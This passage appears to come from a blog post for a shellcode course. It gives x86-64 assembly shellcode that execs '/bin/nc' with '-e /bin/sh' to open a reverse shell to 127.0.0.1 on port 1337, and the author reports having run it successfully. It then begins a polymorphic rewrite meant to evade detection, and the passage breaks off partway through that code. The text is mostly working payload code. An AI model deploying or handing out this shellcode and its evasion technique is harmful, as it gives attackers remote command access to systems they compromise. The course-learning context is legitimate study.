     mov rcx,0x68732f6e69622fff
    shr rcx,0x08
    push    rcx
    mov rcx,rsp

    mov     rbx,0x652dffffffffffff
    shr rbx,0x30
    push    rbx
    mov rbx,rsp

    mov r10,0x37333331ffffffff
    shr     r10,0x20
    push    r10
    mov r10,rsp

    jmp short ip
    continue:
    pop     r9

    push    rdx  ;push NULL
    push    rcx  ;push address of 'bin/sh'
    push    rbx  ;push address of '-e'
    push    r10  ;push address of '1337'
    push    r9   ;push address of 'ip'
    push    rdi  ;push address of '/bin/nc'

    mov     rsi,rsp
    mov     al,59
    syscall


    ip:
        call  continue
        db "127.0.0.1"

It connects back, of course, on port `1337`. Note that you need to have the `nc-traditional` package rather than the `nc-openbsd` package for this payload to work. I executed it to make sure it worked:

![nc](/static/blog/2018/SLAE64/6/nc_revshell.png)

Now we have up to floor(109*1.5)=163 bytes to use. I followed the same strategy as before - encoding constants, changing registers, replacing instructions with different but equivalent ones and so on (for example, the first step was replacing all the `mov` and `shr` sequences). This is my final result:

    ;syscall: execve("/bin/nc",{"/bin/nc","ip","1337","-e","/bin/sh"},NULL)

    BITS 64
    xor     r11,r11
    push    r11
    mov     rdi,0x636e2f2f6e69622f
    push    rdi
    mov     rdi,rsp
